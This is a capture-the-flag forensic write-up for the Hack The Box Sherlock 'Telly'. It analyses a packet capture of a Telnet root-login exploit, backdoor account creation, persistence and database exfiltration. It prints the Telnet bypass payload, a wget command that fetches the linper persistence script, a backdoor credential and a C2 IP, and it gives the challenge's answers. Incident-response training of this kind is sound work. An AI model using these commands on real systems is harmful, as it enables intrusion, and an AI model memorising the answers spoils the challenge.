







# Telly
> Write-up author: Ittiwat Nimitliupanit
> 
> Category: SOC
> 
> Platform: Hack The Box Sherlocks
>

>
## Scenario
You are a Junior DFIR Analyst at an MSSP that provides continuous monitoring and DFIR services to SMBs. Your supervisor has tasked you with analyzing network telemetry from a compromised backup server. A DLP solution flagged a possible data exfiltration attempt from this server. According to the IT team, this server wasn't very busy and was sometimes used to store backups.
>
We have 1 PCAPNG file `monitoringservice_export_202610AM-11AM.pcapng` that givien in zip file
>
1. What CVE is associated with the vulnerability exploited in the Telnet protocol?
>
We fillter need port 23 as this is a port for telnet by using `tcp.port == 23` right click and follow `TCP steam` we found the payload tha use for exploit the system `USER.-f root.DISPLAY.kali:0.0` We google and we found `CVE-2026-24061` [CVE-2026-24061](https://www.offsec.com/blog/cve-2026-24061/).
>

>
> ANS: `CVE-2026-24061`
>
2. When was the Telnet vulnerability successfully exploited, granting the attacker remote root access on the target machine?
>
In Task 1, We can continue using Follow TCP Stream. When you scroll down and see something like:
>

>
> ANS: `2026-01-27 10:39:28`
>
3. What is the hostname of the targeted server?
>
Same as Task 2 -> In Task 1, you can continue using Follow TCP Stream. When you scroll down and see something like:
>

>
> ANS : `backup-secondary`
>
4.  The attacker created a backdoor account to maintain future access. What username and password were set for that account?
>
Same as Task 3 -> In Task 1, you can continue using Follow TCP Stream. When you scroll down and see something like:
>

>
> ANS: `cleanupsvc:YouKnowWhoiam69`
>
5. What was the full command the attacker used to download the persistence script?
>
Again Follow TCP Stream same as task 1-4, but this time we can see linper.sh at 3968.
>

>
> ANS: `wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh`
>
6. The attacker installed remote access persistence using the persistence script. What is the C2 IP address?
>
In this task we go through `Statistics > Endpoints > IPv4` and we see IP 91.99.25.54 stands out as an external address generating 2,672 packets with the victim server. This is a suspect IP so we use this IP for search `91.99.25.54` by using `ip.addr == 91.99.25.54` to verify.
>

>
> ANS: `91.99.25.54`
>
7. The attacker exfiltrated a sensitive database file. At what time was this file exfiltrated?
>
We use `http.request.uri contains ".db"` to fillter for database file and we found at 9380 when the attacker stole a file.
>

>
> ANS : `2026-01-27 10:49:54`
>
8. Analyze the exfiltrated database. To follow compliance requirements, the breached organization needs to notify its customers. For data validation purposes, find the credit card number for a customer named Quinn Harris.
>
In this task we need to export db file via `File > Export Objects > HTTP` and select 9380. We open that file select browse data. Now we can search for Quinn.
>

>
> ANS : `5312269047781209`
